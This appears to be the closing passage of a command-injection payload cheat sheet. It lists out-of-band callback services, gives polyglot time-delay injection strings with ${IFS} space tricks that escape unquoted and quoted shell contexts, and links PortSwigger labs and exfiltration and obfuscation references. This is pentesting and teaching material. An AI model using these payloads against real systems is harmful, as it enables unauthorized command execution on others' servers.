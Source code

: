 - dnsbin.zhack.ca
- pingb.in

## Polyglot command injection

```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

e.g:
echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
```

```bash
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

e.g:
echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
```

## Labs

* [OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)
* [Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)
* [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)
* [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)
* [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

## References

* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)
* [Bug Bounty Survey - Windows RCE spaceless](https://web.archive.org/web/20180808181450/https://twitter.com/bugbsurveys/status/860102244171227136)
* [No PHP, no spaces, no $, no { }, bash only - @asdizzle](https://twitter.com/asdizzle_/status/895244943526170628)
* [#bash #obfuscation by string manipulation - Malwrologist, @DissectMalware](https://twitter.com/DissectMalware/status/1025604382644232192)
* [What is OS command injection - portswigger](https://portswigger.net/web-security/os-command-injection)
